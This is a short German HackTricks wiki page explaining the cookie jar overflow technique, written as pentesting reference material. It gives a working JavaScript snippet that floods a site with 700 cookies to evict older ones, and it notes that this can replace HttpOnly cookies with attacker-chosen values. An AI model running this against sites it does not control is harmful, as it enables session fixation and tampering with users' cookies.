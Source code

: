 {{#include ../../banners/hacktricks-training.md}}

Die Browser haben ein **Limit für die Anzahl der Cookies**, die sie für eine Seite speichern können. Wenn Sie aus irgendeinem Grund **ein Cookie verschwinden lassen** müssen, können Sie **das Cookie-Glas überlaufen**, da die ältesten zuerst gelöscht werden:
```javascript
// Set many cookies
for (let i = 0; i < 700; i++) {
document.cookie = `cookie${i}=${i}; Secure`
}

// Remove all cookies
for (let i = 0; i < 700; i++) {
document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`
}
```
Beachten Sie, dass Cookies von Drittanbietern, die auf eine andere Domain verweisen, nicht überschrieben werden.

> [!CAUTION]
> Dieser Angriff kann auch verwendet werden, um **HttpOnly-Cookies zu überschreiben, da Sie es löschen und dann mit dem gewünschten Wert zurücksetzen können**.
>
> Überprüfen Sie dies in [**diesem Beitrag mit einem Labor**](https://www.sjoerdlangkemper.nl/2020/05/27/overwriting-httponly-cookies-from-javascript-using-cookie-jar-overflow/).

{{#include ../../banners/hacktricks-training.md}}
